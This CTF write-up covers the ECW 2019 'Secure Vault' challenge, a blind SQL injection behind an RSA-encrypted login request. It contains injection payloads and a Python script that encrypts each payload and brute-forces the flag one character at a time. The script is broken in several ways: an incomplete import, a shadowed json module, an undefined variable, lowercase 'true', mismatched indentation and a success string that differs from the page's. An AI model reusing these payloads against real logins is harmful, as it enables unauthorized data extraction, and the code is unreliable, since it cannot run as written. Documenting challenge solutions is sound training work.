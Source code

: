 # ECW-Challenge 2019 Writeup: Secure Vault

Secure Vault is a challenge from the European Cyber Week qualification CTF and is a blind SQL-Injection with a little twist of encryption. Entering the Website, you are presented with a login form, asking for Username and Password. 

### Finding the entry point

Testing for a basic SQL injection by entering "'or 1=1; -- -'" results in the message "Welcome back! Unfortunately we are under maintenance, please come back later :)". Entering a false password results in an Error, so we have a boolean-based Injection.
<br />
While further testing, I discovered that when you enter two Queries, e.g. ```">' or 1=1; SLEEP(5)"```, we get a very verbose error, "You can only execute one query at a time", which reveals the actual query which equals to ```SELECT id, secret FROM users WHERE email=' . $USER_INPUT . '``` and also tells us about the DBMS, which is SQLite3.3.
<br />
My first guess  was that the admin password is the flag, but we know the Format (ECW{64HEX}) and testing for ```' or substr(secret,1,3)="ECW";``` resulted false.

### The exploit

From now on, a script should probably take over, to enumerate table- and field names. Looking at the request, the POST-payload carrying the credentials is cyphered. Looking at the source code, we find some important js-code:

```
$(document).ready(function () {
	$("#challenge").submit(function (event) {
		event.preventDefault();
		var encrypt = new JSEncrypt();
		encrypt.setPublicKey($('#pubkey').val());

		email = $('#email').val();
		passwd = $('#passwd').val();
		jsonlogin = {
			"email": email,
			"passwd": passwd
		}

		var encrypted = encrypt.encrypt(JSON.stringify(jsonlogin));
		$.post( "/login",{encrypted:encrypted}, function( data ) {
			$('#content').text(data)
			$('#msg_modal').on('shown.bs.modal', function () {}).modal('show');
		});
	})
});
```

And the related public key:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6NxvZHf6eBzmIvfvRAOZ
UHPL8pzY5xdrFd0qa5Gh/E215tKFQ2vMMBpF/yyA2KE55bwaQnUPNkzPxPKV5MCL
rqdobV/HO6F4m4XIDP2PA6sJUmMjhh8X6aAzQ1rgMyF+J0z6zGY2kh2LtBAGDnu5
wfY+cORY/CyJZ7y8RRxEdeTDtsVnRe/xz++9cIF6e+yYqwJLa+nHD894oFbVlSok
NJh8e2eqpkIvfVotmp4JTjDJp9bpH+ibHWi3gj/o3SXvu832LHn1d5fANB9sQ44r
UjDfhr8h0bA8ZkO5Hj9W39M5WJK9MqzgV5lgb3patN0wOosPOKRBRKdA65jRbuxo
pwIDAQAB
-----END PUBLIC KEY-----
```

JSEncrypt uses RSA-PKCS1-v1.5. Of course Python has a library for this cypher-suite, so we can write a script to enumerate the tables and find the flag. But sometimes common sense can help to speed things up, so I tried some table names by hand. The obvious "vault" was the table name and "flag" the field name: 
```x' or (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name='vault');```
```x' or (SELECT flag FROM vault limit 1) like 'ECW{%```

Python will then do the annoying part.

```python
from Crypto.Cipher import PKCS1_v1_5
from Crypto.PublicKey import 
import base64
import json
import requests

public_key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6NxvZHf6eBzmIvfvRAOZ
UHPL8pzY5xdrFd0qa5Gh/E215tKFQ2vMMBpF/yyA2KE55bwaQnUPNkzPxPKV5MCL
rqdobV/HO6F4m4XIDP2PA6sJUmMjhh8X6aAzQ1rgMyF+J0z6zGY2kh2LtBAGDnu5
wfY+cORY/CyJZ7y8RRxEdeTDtsVnRe/xz++9cIF6e+yYqwJLa+nHD894oFbVlSok
NJh8e2eqpkIvfVotmp4JTjDJp9bpH+ibHWi3gj/o3SXvu832LHn1d5fANB9sQ44r
UjDfhr8h0bA8ZkO5Hj9W39M5WJK9MqzgV5lgb3patN0wOosPOKRBRKdA65jRbuxo
pwIDAQAB
-----END PUBLIC KEY-----"""

session = requests.session()

def inject(payload):
    jsonlogin = {
        "email":"test@test.de",
        "passwd":payload
    }
    json = json.dumps(jsonlogin, separators=(',', ':'))

    rsa_key = RSA.importKey(public_key)
    rsa_cipher = PKCS1_v1_5.new(rsa_key)
    encrypted = cipher.encrypt(json)
    post_data = base64.b64encode(encrypted)

    r = session.post("https://web_securevault.challenge-ecw.fr/login",
    	{"encrypted":post_data},
    	cookies={"session":"$MYSESSIONID"}) # do not forget the session cookie
     
   	if "Welcome Back" in r.text:
   		return true
   		
flag = "ECW{"
# length is 64
for i in range(0,64):
	# test each ascii char from '0' to 'z'
	for c in range(48,123):
		payload = "x' or (SELECT flag from vault limit 1) like '"+ flag + str(chr(c)) + "%"
		if inject(payload): # if positive result, we found the next char of the flag
			flag = flag + str(chr(c))
				
print('Flag: '+flag+'}')
```
And there is the flag

```ECW{9a058f5d7611685100ff42b26fc054782e061af786228f8208b988cba449cb41}```

Another interesting way would be to convert the above to a tampering script to utilise in combination with SqlMap, but for a simple challenge like this, I prefer to not use unneccesarily big tools.
